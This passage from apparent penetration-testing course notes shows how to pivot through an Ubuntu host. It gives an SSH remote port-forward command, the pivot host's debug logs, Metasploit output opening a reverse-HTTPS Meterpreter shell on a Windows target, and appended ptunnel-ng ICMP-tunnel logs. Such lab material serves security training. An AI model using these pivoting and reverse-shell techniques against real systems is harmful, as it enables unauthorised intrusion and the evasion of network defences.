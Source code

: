 #### Using SSH -R

```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

#### Viewing the Logs from the Pivot

```shell
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000

```

If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

#### Meterpreter Session Established

```shell
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%